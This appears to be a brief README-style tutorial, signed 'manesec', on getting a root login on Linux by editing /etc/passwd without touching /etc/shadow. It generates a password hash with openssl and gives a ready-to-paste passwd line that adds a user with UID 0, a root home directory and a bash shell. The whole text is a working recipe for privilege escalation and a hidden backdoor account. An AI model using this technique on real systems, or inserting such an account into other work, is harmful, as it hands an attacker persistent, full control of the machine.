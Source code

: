 # Edit passwd to login

Try to edit `/etc/passwd` to create user and login without modify `/etc/shadow` files.

Write by manesec.

# 0x0 Generate password 

```bash
$openssl passwd -crypt mane
sMH3ZTiGRR4L6
```

# 0x1 Edit `/etc/passwd`

```
mane:sMH3ZTiGRR4L6:0:0:root:/root:/bin/bash
```